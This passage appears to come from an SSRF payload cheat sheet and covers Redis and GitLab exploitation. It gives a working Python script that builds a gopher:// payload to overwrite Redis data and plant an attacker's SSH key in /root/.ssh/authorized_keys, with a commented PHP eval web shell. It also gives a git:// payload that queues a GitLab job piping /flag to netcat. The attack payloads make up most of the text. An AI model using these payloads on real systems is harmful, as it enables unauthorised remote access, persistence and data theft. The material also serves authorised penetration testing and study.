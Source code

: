 **RCE via authorized_keys** - [Redis Getshell Summary](https://www.mdeditor.tw/pl/pBy0)

```python
import urllib
protocol="gopher://"
ip="192.168.189.208"
port="6379"
# shell="\n\n<?php eval($_GET[\"cmd\"]);?>\n\n"
sshpublic_key = "\n\nssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC8IOnJUAt5b/5jDwBDYJTDULjzaqBe2KW3KhqlaY58XveKQRBLrG3ZV0ffPnIW5SLdueunb4HoFKDQ/KPXFzyvVjqByj5688THkq1RJkYxGlgFNgMoPN151zpZ+eCBdFZEf/m8yIb3/7Cp+31s6Q/DvIFif6IjmVRfWXhnkjNehYjsp4gIEBiiW/jWId5yrO9+AwAX4xSabbxuUyu02AQz8wp+h8DZS9itA9m7FyJw8gCrKLEnM7PK/ClEBevDPSR+0YvvYtnUxeCosqp9VrjTfo5q0nNg9JAvPMs+EA1ohUct9UyXbTehr1Bdv4IXx9+7Vhf4/qwle8HKali3feIZ root@kali\n\n"
filename="authorized_keys"
path="/root/.ssh/"
passwd=""
cmd=["flushall",
     "set 1 {}".format(sshpublic_key.replace(" ","${IFS}")),
     "config set dir {}".format(path),
     "config set dbfilename {}".format(filename),
     "save"
     ]
if passwd:
    cmd.insert(0,"AUTH {}".format(passwd))
payload=protocol+ip+":"+port+"/_"
def redis_format(arr):
    CRLF="\r\n"
    redis_arr = arr.split(" ")
    cmd=""
    cmd+="*"+str(len(redis_arr))
    for x in redis_arr:
        cmd+=CRLF+"$"+str(len((x.replace("${IFS}"," "))))+CRLF+x.replace("${IFS}"," ")
    cmd+=CRLF
    return cmd

if __name__=="__main__":
    for x in cmd:
        payload += urllib.quote(redis_format(x))
    print payload
```

**RCE on GitLab via Git protocol**

Great writeup from Liveoverflow [here](https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/).

While this required authenticated access to GitLab to exploit, I am including the payload here as the `git` protocol may work on the target you are hacking. This payload is for reference.

```bash
git://[0:0:0:0:0:ffff:127.0.0.1]:6379/%0D%0A%20multi%0D%0A%20sadd%20resque%3Agitlab%3Aqueues%20system%5Fhook%5Fpush%0D%0A%20lpush%20resque%3Agitlab%3Aqueue%3Asystem%5Fhook%5Fpush%20%22%7B%5C%22class%5C%22%3A%5C%22GitlabShellWorker%5C%22%2C%5C%22args%5C%22%3A%5B%5C%22class%5Feval%5C%22%2C%5C%22open%28%5C%27%7Ccat%20%2Fflag%20%7C%20nc%20127%2E0%2E0%2E1%202222%5C%27%29%2Eread%5C%22%5D%2C%5C%22retry%5C%22%3A3%2C%5C%22queue%5C%22%3A%5C%22system%5Fhook%5Fpush%5C%22%2C%5C%22jid%5C%22%3A%5C%22ad52abc5641173e217eb2e52%5C%22%2C%5C%22created%5Fat%5C%22%3A1513714403%2E8122594%2C%5C%22enqueued%5Fat%5C%22%3A1513714403%2E8129568%7D%22%0D%0A%20exec%0D%0A%20exec%0D%0A/ssrf123321.git
```
